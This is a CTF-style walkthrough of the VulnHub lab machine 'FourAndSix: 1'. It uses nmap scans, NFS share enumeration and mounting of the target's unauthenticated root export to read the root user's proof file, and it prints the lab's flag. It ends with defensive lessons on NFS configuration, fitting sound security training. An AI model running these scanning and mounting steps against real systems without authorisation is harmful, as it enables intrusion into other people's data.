








# FourAndSix: 1

- **Machine:** FourAndSix: 1
- **Download:** https://www.vulnhub.com/entry/fourandsix-1,236/



---

## Setup

- Import the `.ova` file into VirtualBox.
- Click **Finish**.
- Start the virtual machine.

---

# Network Scanning

## Find the Target IP Address

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Port Scan

Run a comprehensive Nmap scan to enumerate all open ports, services, operating system details, and default NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.191
```



---

## Optional Service Scan

```bash
nmap -v -p- 192.168.2.191
```

```bash
nmap -sC -sV -A 192.168.2.191
```

---

# NFS Enumeration

## Enumerate NFS Shares

Check which NFS shares are publicly accessible.

```bash
showmount -e 192.168.2.191
```



---

## Mount the Shared Directory

Create a local mount point.

```bash
mkdir shared_dir
```

Mount the NFS share.

```bash
mount -t nfs 192.168.2.191:/shared ./shared_dir
```

Navigate into the mounted directory.

```bash
cd shared_dir
```

List the available files.

```bash
ls
```



---

## Mount the USB Image

Create a directory to mount the image.

```bash
mkdir -p usb
```

Mount the disk image.

```bash
mount -o loop USB-stick.img ./usb
```

Navigate into the mounted image.

```bash
cd usb
```

List its contents.

```bash
ls -lh
```



No useful information is found inside the mounted USB image.

---

## Mount the Root Filesystem

Check whether the root directory is exported over NFS.

Create a new mount point.

```bash
mkdir main
```

Mount the root filesystem.

```bash
mount 192.168.2.191:/ main
```

Navigate into the mounted directory.

```bash
cd main
```

List its contents.

```bash
ls -la
```



The root filesystem is publicly accessible.

---

## Retrieve the Flag

Navigate to the root user's directory.

```bash
cd root
```

List the files.

```bash
ls -la
```

Read the proof file.

```bash
cat proof.txt
```



### Root Flag

```text
904b4a46b21bbf13dbe53d21a3cd024f
```

---

# Impact

- Misconfigured NFS exports exposed sensitive directories.
- The root filesystem was accessible without authentication.
- Sensitive files could be read remotely.
- Full compromise of the target's data confidentiality.

---

# Key Learning

- Always enumerate NFS services during network reconnaissance.
- Verify whether exported shares have proper access restrictions.
- Never export the root filesystem to unauthenticated users.
- Misconfigured NFS shares can lead directly to sensitive file disclosure.

---

# Summary

The assessment identified an improperly configured NFS service that exposed multiple network shares. Although the shared USB image did not contain useful information, further enumeration revealed that the server's root filesystem was exported without authentication. After mounting the root directory locally, the root user's files became accessible, allowing retrieval of the proof file and demonstrating the severe impact of insecure NFS configurations.